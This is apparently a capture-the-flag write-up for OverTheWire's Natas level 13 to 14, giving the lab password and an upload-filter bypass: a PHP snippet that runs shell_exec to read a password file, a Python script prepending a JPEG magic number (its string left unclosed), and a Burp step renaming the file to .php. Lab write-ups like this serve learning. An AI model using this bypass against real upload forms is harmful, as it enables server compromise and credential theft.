 # Natas Level 13 --> Level 14

**Username:** natas14

**Password:** Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

**URL:**      http://natas14.natas.labs.overthewire.org

## Solution
* Open inspect, there are button to upload an image (1kb) and button send us to a page contain the source code.
* If you read the source code it is like the last one, generate random path with extention taken from requests to uploaded file, then put it in upload folder.
* Write php script echo the password from pass folder
```php
<?php
  echo shell_exec("cat /etc/natas_webpass/natas14");
?>
```
* Now if you upload it, he will say only images are allowed, from source code you know that they check file type using exif_imagetype() php function which reads the magic number for the file.
* So first write JPEG magic number then your php script (to make magic number interprete as bytes we use pyhon3)
```py
  file = open('image', 'wb')
  file.write(b'\xFF\xD8\xFF\xE0' + b'<? echo shell_exec("cat /etc/natas_webpass/natas14"); 
  file.close()
```
* Upload the script then intercept requests with burpSuite to change filename extension to php to execute script onclick
* You got the password!!

## Password
>   
